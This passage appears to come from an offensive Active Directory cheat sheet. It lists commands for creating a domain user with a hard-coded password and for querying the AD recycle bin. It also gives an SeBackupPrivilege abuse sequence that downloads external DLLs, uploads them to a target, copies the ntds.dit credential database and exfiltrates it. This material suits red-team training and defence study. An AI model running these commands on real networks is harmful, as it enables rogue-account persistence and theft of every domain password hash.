 Create new domain user:

```
PS > net user snovvcrash qwe321456 /ADD /DOMAIN
Or
PS > New-ADUser -Name snovvcrash -SamAccountName snovvcrash -Path "CN=Users,DC=megacorp,DC=local" -AccountPassword(ConvertTo-SecureString 'qwe321456' -AsPlainText -Force) -Enabled $true
```

List deleted AD objects (AD recycle bin):

```
PS > Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
PS > Get-ADObject -LDAPFilter "(objectClass=User)" -SearchBase '<DISTINGUISHED_NAME>' -IncludeDeletedObjects -Properties * |ft
```

* [activedirectorypro.com/enable-active-directory-recycle-bin-server-2016/](https://activedirectorypro.com/enable-active-directory-recycle-bin-server-2016/)
* [blog.stealthbits.com/active-directory-object-recovery-recycle-bin/](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/)


#### Misc

* [activedirectorypro.com/active-directory-user-naming-convention/](https://activedirectorypro.com/active-directory-user-naming-convention/)




## Abuse Privileges



### SeBackupPrivilege


#### SeBackupPrivilege

* [github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```

